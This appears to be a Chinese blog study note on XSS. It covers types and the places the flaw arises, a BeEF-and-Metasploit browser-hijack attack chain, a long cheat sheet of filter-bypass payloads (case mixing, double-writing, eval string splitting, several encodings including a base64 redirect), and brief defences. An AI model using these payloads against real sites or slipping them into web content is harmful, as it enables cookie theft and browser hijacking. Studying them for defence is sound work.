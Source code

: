 ```yaml
---
title: XSS 跨站脚本攻击
published: 2025-03-09 16:44:04
tags: [WEB安全,通用漏洞]
category: 安全
draft: false
---
```


# XSS 跨站脚本攻击

## 原理

[XSS漏洞原理、分类、危害及防御_xss的危害及防御方法-CSDN博客](https://blog.csdn.net/rendaa/article/details/113592738)

[网络安全自学篇（十八）| XSS跨站脚本攻击原理及代码攻防演示（一）-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1612474)

[XSS总结 - 先知社区](https://xz.aliyun.com/t/4067?time__1311=n4%2Bxni0QG%3DoCqAKYiKDsD7feynmUdeHedDB7rYD)

## 分类

反射型，存储型，DOM型（前三种常用）,mXSS

## 一般会在哪产生

数据交互的地方（数据是由你来操控的），留言板，评论，文章发布，文章显示

## 玩法

`PDFXSS`：`https://blog.csdn.net/m0_73236215/article/details/131646018`

`XSS`后台植入&`Cookie`&表单劫持：`XSS后台植入CSDN` | `权限维持，钓鱼` |

浏览器劫持：（思路）使用XSS-beef 构造 XSS后门 放到可信任的网站上→别人点击后在在beef上线→beef里面操控浏览器访问地址（到这步就是劫持了）→ （再搭配msf来获取shell权限）msf 生成后门url→然后beef操控浏览器访问  

## 绕过姿势

### 单引号双引号反引号

html标签中，我们**可以不用引号**；如果是在javascript的函数中，我们可以用反引号代替单双引号

```python
<img src="1" onerror=alert(1);>可以，
<img src=`1` onerror=alert(1);>不行；

<img src="1" onerror='alert(1)';>可以，
	<img src="1" onerror=`alert(1)`;>不行；

<img src="x" onerror=alert('1');>可以，
<img src="x" onerror=alert(`1`);>可以；
```

### 空格被过滤

使用/代替空格

```python
<img/src="1"/onerror=alert(1);>
```

用回车符CR(%0d) 和换行符LF(%0a)取代空格,在HTML中`%0a`和`%0d`是可以当成空格使用的。

```python
<img%0asrc='1'%0donerror=alert(1);>
```

### 关键字被过滤

- 用`<svg>`标签等
- 指示符干扰绕过
    
    `<scri<!--test-->pt>alert("hello world!")</scri<!--test-->pt>`
    
- 大小写绕过
    
    ```python
    <ImG sRc=1 onerRor=alert(1);>
    <SvG OnlOad="alert(1)">
    ```
    
- 双写绕过
    
    `<imimgg srsrcc=x onerror=alert("xss");>` 得看准确配置，有的过滤只能替换一次
    
- 字符拼接
    
    eval以及top
    
    ```python
    <img src="x" onerror="a=`aler`;b=`t`;c='(1);';eval(a+b+c)">
    <svg onload="a=`aler`;b=`t`;c='(1);';eval(a+b+c)">
    //
    <script>top[`al`+`ert`](1);</script>
    <img src="x" onerror="top['al'+'ert'](1);">
    <svg onload='top["al"+"ert"](1);'>
    ```
    
- 其他字符混淆
- 编码绕过
    
    HTML编码，Unicode编码
    
    escape 编码
    
    ```python
    <img src="a" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
    ```
    
    ASCII编码
    
    ```python
    <img src="b" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">
    ```
    
    十六进制编码`\x`的`x`只能小写
    
    ```python
    <img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
    ```
    
    八进制编码
    
    ```python
    <script>eval("\141\154\145\162\164\50\57\170\163\163\57\51");</script> 
    ```
    
    base64，使用atob解码
    
    ```python
    <img src="c" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
    
    <iframe/src=data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=></iframe>
    ```
    
- 括号被过滤
    
    使用`throw`
    
    设置错误处理程序为`eval`然后`throw`抛出错误`eval`执行`alert`
    
    ```python
    <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
    ```
    

## 如何防护

1、过滤一些危险字符，以及转义`&<>" '`等危险字符

2、`HTTP-only Cookie` ,防止`xss`盗取`cookie`

3、设置`CSP(Content Security Policy)`，设置资源只能本地加载